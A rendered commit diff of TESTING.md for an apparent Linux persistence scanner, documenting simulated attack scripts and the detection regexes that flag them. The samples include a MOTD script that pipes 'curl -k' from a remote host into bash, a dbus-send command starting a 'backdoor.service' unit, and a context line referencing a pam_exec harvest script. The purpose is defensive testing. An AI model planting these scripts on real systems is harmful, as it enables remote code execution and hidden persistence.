

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; pictures changed too: assets/test-dbus.png (added), assets/test-motd.png; blank space fills up the shorter version.

Commit message:
TESTING Update, rules update

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -102,22 +147,53 @@ session    optional     pam_exec.so /dev/shm/.harvest.sh
 
 ---
 
-## PoC 5: MOTD Dynamic Script Execution Persistence
+## 5. MOTD & Shell Profile Scripts
+
+### PoC 5.1: MOTD Dynamic Script Execution Persistence via curl
 
 **Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote fileless payloads bypassing SSL verification and directly piping to the shell.
 
-**Simulated File:** `99-backdoor`
+**Simulated File:** `99-test-curl`
 
-```bash
+```
 #!/bin/sh
 curl -s -k https://10.0.0.1/update.sh | bash
 ```
 
 **Matched Indicators (`rules.json`):**
 * `\bcurl\s+.*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Silent HTTP request via curl piped directly to a shell (Fileless payload execution)*)
-* `\bcurl\s+.*-(k|-insecure)` — **HIGH** (*HTTP request via curl with SSL/TLS verification disabled*)
+* `\bcurl\s+.*-(k|-insecure)` — **HIGH** (*HTTPS request via curl with SSL/TLS verification disabled*)
 * `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
 
 [![MOTD Detection](assets/test-motd.png)](assets/test-motd.png)
+
+---
+
+### PoC 5.2: Stealth Service Activation via Raw D-Bus Messaging
+
+**Vector:** To avoid triggering process monitoring alerts tied to standard service management binaries (such as `systemctl`), attackers place a dynamic MOTD script in `/etc/update-motd.d/` that sends raw D-Bus messages directly to `org.freedesktop.systemd1` to silently activate a dormant backdoor unit upon user login.
+
+**Simulated File:** `99-dbus-test`
+
+```
+#!/bin/sh
+dbus-send --system --dest=org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager.StartUnit string:backdoor.service string:replace
+```
+
+**Matched Indicators (`rules.json`):**
+* `(dbus-send|busctl)\s+.*org\.freedesktop\.systemd1` — **HIGH** (*D-Bus messaging used to secretly trigger systemd daemon actions*)
+
+**PoC Evidence:**
+
+[![D-Bus Systemd Detection](assets/test-dbus.png)](assets/test-dbus.png)
+
+---
+
+### PoC 5.3: Hex-Encoded Payload
+
+**Vector:** Attackers construct obfuscated shell commands using hexadecimal escape sequences via `printf`.
+
+**Simulated File:** `99-test`
+
````
Also changed, not shown: other parts of TESTING.md (+81 -23 lines), assets/test-printf.png (added), assets/test-udev.png, assets/test-udev2.png (added), 1 other file.
